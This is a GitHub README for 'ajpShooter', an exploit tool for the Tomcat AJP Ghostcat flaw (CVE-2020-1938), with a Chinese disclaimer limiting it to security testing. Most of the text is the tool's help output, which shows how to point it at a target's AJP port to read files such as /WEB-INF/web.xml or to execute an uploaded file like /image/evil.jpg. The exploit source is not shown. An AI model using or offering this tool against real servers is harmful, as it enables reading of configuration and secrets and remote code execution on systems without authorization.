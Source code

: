 # Ghostcat


exp for CNVD-2020-10487(CVE-2020-1938)

tomcat ajp协议任意属性设置导致的文件读取和文件执行。

[漏洞分析](https://www.00theway.org/2020/02/22/ajp-shooter-from-source-code-to-exploit/)

# 代码仅供安全测试，请勿用于非法用途,造成的后果使用者负责与本人无关！！！


```
python3 ajpShooter.py -h

       _    _         __ _                 _
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|
         |__/|_|
                                                00theway,just for test

usage: ajpShooter.py [-h] [--ajp-ip AJP_IP] [-H HEADER]
                     [-X {GET,POST,HEAD,OPTIONS,PROPFIND}] [-d DATA]
                     [-o OUT_FILE] [--debug]
                     url ajp_port target_file {read,eval}

positional arguments:
  url                   target site's context root url like
                        http://www.example.com/demo/
  ajp_port              ajp port
  target_file           target file to read or eval like /WEB-
                        INF/web.xml,/image/evil.jpg
  {read,eval}           read or eval file

optional arguments:
  -h, --help            show this help message and exit
  --ajp-ip AJP_IP       ajp server ip,default value will parse from from url
  -H HEADER, --header HEADER
                        add a header
  -X {GET,POST,HEAD,OPTIONS,PROPFIND}
                        Sets the method (default: GET).
  -d DATA, --data DATA  The data to POST
  -o OUT_FILE, --out-file OUT_FILE
                        write response to file
  --debug
```

read file

![](ajp-read.png)

execute file

![](ajp-execute.png)

save file

![](ajp-save.png)
